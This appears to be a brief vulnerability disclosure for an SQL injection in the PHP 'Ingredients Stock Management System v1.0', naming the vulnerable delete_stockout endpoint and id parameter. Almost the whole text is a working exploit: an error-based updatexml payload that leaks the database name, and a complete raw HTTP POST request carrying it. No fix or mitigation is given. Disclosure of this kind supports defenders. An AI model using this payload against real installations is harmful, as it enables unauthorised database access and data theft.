 # Ingredients Stock Management System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15364/ingredients-stock-management-system-phpoop-free-source-code.html

Vulnerability File: /isms/classes/Master.php?f=delete_stockout

Vulnerability location: /isms/classes/Master.php?f=delete_stockout, id

db_name = isms_db;

[+] Payload: id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /isms/classes/Master.php?f=delete_stockout HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=2m880botn1u43hd2gu23ttj4ug
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```


![image](https://user-images.githubusercontent.com/54017627/179383963-8704e53c-ee8c-4866-a355-603502e3581a.png)

